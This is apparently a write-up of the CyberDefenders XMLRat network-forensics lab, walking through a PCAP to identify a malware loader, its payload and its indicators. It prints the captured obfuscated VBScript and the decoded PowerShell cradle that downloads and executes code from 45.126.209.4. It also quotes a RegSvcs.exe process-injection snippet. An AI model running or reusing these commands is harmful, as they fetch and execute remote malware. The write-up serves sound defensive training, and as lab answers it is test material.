#  XMLRat Lab

**Platform:** CyberDefenders    
**Difficulty:** Easy  
**Duration:** ~30 min   
**Category:** Network Forensics
**Link:** https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/
 
## Scenario
A compromised machine has been flagged due to suspicious network traffic. Your task is to analyze the PCAP file to determine the attack method, identify any malicious payloads, and trace the timeline of events. Focus on how the attacker gained access, what tools or techniques were used, and how the malware operated post-compromise.

## Q1
The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?


Before we start looking into the streams, it is convenient to review the analysis provided by Wireshark in order to find the attacker, or at least establish some initial suspects.

We can view the analysis here:

 

 

From the image we can easily identify the thread actor, as two of the three IPs are private.

Knowing that the attacker's IP is "45.126.209.4", we can apply some basic filters:

 

Investigating the first of the two results by following its HTTP stream, we find something really interesting, an entire function.

 

The complete function:

```
Dim LZeWX(88), OodjR, i

' Define each part based on the provided order
LZeWX(0) = "[B"
LZeWX(1) = "YT"
LZeWX(2) = "e["
LZeWX(3) = "]]"
LZeWX(4) = ";$"
LZeWX(5) = "A1"
LZeWX(6) = "23"
LZeWX(7) = "='"
LZeWX(8) = "Ie"
LZeWX(9) = "X("
LZeWX(10) = "Ne"
LZeWX(11) = "W-"
LZeWX(12) = "OB"
LZeWX(13) = "Je"
LZeWX(14) = "CT"
LZeWX(15) = " N"
LZeWX(16) = "eT"
LZeWX(17) = ".W"
LZeWX(18) = "';"
LZeWX(19) = "$B"
LZeWX(20) = "45"
LZeWX(21) = "6="
LZeWX(22) = "'e"
LZeWX(23) = "BC"
LZeWX(24) = "LI"
LZeWX(25) = "eN"
LZeWX(26) = "T)"
LZeWX(27) = ".D"
LZeWX(28) = "OW"
LZeWX(29) = "NL"
LZeWX(30) = "O'"
LZeWX(31) = ";["
LZeWX(32) = "BY"
LZeWX(33) = "Te"
LZeWX(34) = "[]"
LZeWX(35) = "];"
LZeWX(36) = "$C"
LZeWX(37) = "78"
LZeWX(38) = "9="
LZeWX(39) = "'V"
LZeWX(40) = "AN"
LZeWX(41) = "('"
LZeWX(42) = "'h"
LZeWX(43) = "tt"
LZeWX(44) = "p:"
LZeWX(45) = "//"
LZeWX(46) = "45"
LZeWX(47) = ".1"
LZeWX(48) = "26"
LZeWX(49) = ".2"
LZeWX(50) = "09"
LZeWX(51) = ".4"
LZeWX(52) = ":2"
LZeWX(53) = "22/m"
LZeWX(54) = "dm"
LZeWX(55) = ".j"
LZeWX(56) = "pg"
LZeWX(57) = "''"
LZeWX(58) = ")'"
LZeWX(59) = ".R"
LZeWX(60) = "eP"
LZeWX(61) = "LA"
LZeWX(62) = "Ce"
LZeWX(63) = "('"
LZeWX(64) = "VA"
LZeWX(65) = "N'"
LZeWX(66) = ",'"
LZeWX(67) = "AD"
LZeWX(68) = "ST"
LZeWX(69) = "RI"
LZeWX(70) = "NG"
LZeWX(71) = "')"
LZeWX(72) = ";["
LZeWX(73) = "BY"
LZeWX(74) = "Te"
LZeWX(75) = "[]"
LZeWX(76) = "];"
LZeWX(77) = "Ie"
LZeWX(78) = "X("
LZeWX(79) = "$A"
LZeWX(80) = "12"
LZeWX(81) = "3+"
LZeWX(82) = "$B"
LZeWX(83) = "45"
LZeWX(84) = "6+"
LZeWX(85) = "$C"
LZeWX(86) = "78"
LZeWX(87) = "9)"

' Combine the parts into one string
OodjR = ""
For i = 0 To 88 - 1
    OodjR = OodjR & LZeWX(i)
Next
```

The execution of the code results in:

```
[BYTE[]];$A123='IeX(NeW-OBJeCT NeT.W';$B456='eBCLIeNT).DOWNLO';[BYTE[]];$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING');[BYTE[]];IeX($A123+$B456+$C789)
```

And if we deobfuscate it, we have the resulting code:

```
IEX(New-Object Net.WebClient).DownloadString('http://45.126.209.4:222/mdm.jpg')
```

With the code cleaned, we can immediately tell the URL for the download.


# Q2
Which hosting provider owns the associated IP address?

To find this information, we can use any IP geolocation tool. I will be using a website called iplocation.io  



The hosting provider is Reliablesite.net .

# Q3
By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?

As previously stated, we found two HTTP streams from the attacker. Analyzing the second stream we can observe a fake image that is hiding a Windows PE file (identifiable by the 4D 5A 90 00 magic bytes header)



There's also a hidden script below the PE file, which is likely a stealth execution technique. However, we will not inspect it further for now.  




Now that we have located the executable, we just need to obtain its SHA256 hash.

We can easily do this using CyberChef, as shown in the image.




# Q4
What is the malware family label based on Alibaba?

We can obtain this by querying VirusTotal with the obtained SHA256 hash.



# Q5
What is the timestamp of the malware's creation?

Just like before, we can obtain the malware's creation timestamp using VirusTotal.



# Q6
Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.

We already located the stealthy process execution in Q3, we just need to deobfuscate it.

```
$NK = $Fu.GetType('NewPE2.PE')
$MZ = $NK.GetMethod('Execute')
$NA = 'C:\Windows\Micr'
$AC = 'C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe'
$VA = @($AC, $NKbb)

$CM = 'Invoke'
$EY = $MZ.Invoke($null, [object[]] $VA)
```

Now we can see that the path is "C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe"  

# Q7
The script is designed to drop several files. List the names of the files dropped by the script

Looking further into the script, we can find three different files



The answer is: Conted.vbs, Conted.ps1, Conted.bat
